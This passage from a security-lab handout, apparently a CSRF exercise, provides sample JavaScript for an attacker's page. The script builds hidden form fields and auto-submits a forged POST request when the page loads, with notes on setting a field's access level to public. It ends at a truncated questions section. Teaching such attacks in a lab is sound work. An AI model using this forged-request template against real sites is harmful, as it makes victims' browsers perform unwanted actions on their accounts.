 After understanding the structure of the request, you need to 
be able to generate the request from your attacking web page
using JavaScript code. 
To help you write such a JavaScript program,  we provide a 
sample code in the following code fence. You can use this sample code to construct your malicious web site
for the CSRF attacks. This is only a sample code, and you need to modify it to 
make it work for your attack.


\begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}


In Line~, the value \texttt{2} sets the access level of a field to public. 
This is needed, otherwise, the access level will be set by default to private, so others cannot
see this field. It should be noted that when copy-and-pasting the above code
from a PDF file, the  single quote character in the program may become 
something else (but still looks like a single quote). That will cause 
syntax errors. Replacing all the single quote symbols with the one typed from 
your keyboard will fix those errors. 


\paragraph{Questions.}
In addition to describing your attack in full details, you also need to
answer the following questions in your report:


